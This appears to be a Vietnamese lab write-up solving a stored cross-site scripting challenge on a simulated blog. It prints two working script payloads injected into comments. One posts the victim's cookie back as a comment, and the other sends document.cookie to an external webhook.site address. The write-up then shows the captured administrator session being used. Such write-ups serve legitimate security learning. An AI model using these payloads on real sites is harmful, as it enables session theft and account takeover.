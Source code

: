 tiếp theo chúng ta cần tạo 1 payload để lấy được cookie của nạn nhân và hiển thị nó ra

### Khai thác

mình dùng payload này chuyền vào comment

```javascript
<script>
window.addEventListener('DOMContentLoaded', function(){
var token = document.getElementsByName('csrf')[0].value;
var data = new FormData();

data.append('csrf', token);
data.append('postId', 6);
data.append('comment', document.cookie);
data.append('name', 'cuong');
data.append('email', 'a@a.a')
data.append('website', 'http://a.com')

fetch('/post/comment',{
  method: 'POST',
  mode: 'no-cors',
  body : data,
});
});
</script>
```

mình thấy có lab trả về session trên comment

![image](https://hackmd.io/_uploads/By3Hnw_ca.png)

- Truy cập `/my-account` với cookie vừa lấy được, ta thấy đó là `administrator`.

![image](https://hackmd.io/_uploads/HkdeAPd56.png)

- phòng thí nghiệm là mô phỏng vậy nên khi chúng ta gửi payload này, phòng thí nghiệm sẽ giả vờ làm nạn nhân truy cập vào trang này và sẽ post 1 comment kèm cookie của họ cho chúng ta thấy nó tương tự như cuộc tấn công CSRF

vậy là mình solve được lab này

mình dùng webhook(https://webhook.site/) để lấy cookie trả về vẫn được cookie

mình dùng payload sau để chèn vào phần comment

```javascript
<script>
fetch('https://webhook.site/c161ef63-a9e1-4670-99e0-c9140344af84', {
method: 'POST',
body:document.cookie
});
</script>
```

vào webhook và và bắt được requet POST mà lab gửi đến có session bên trong cookie là `session=pafcv6D9PCmMuBEFbdnYjCkjOvBvucaf`
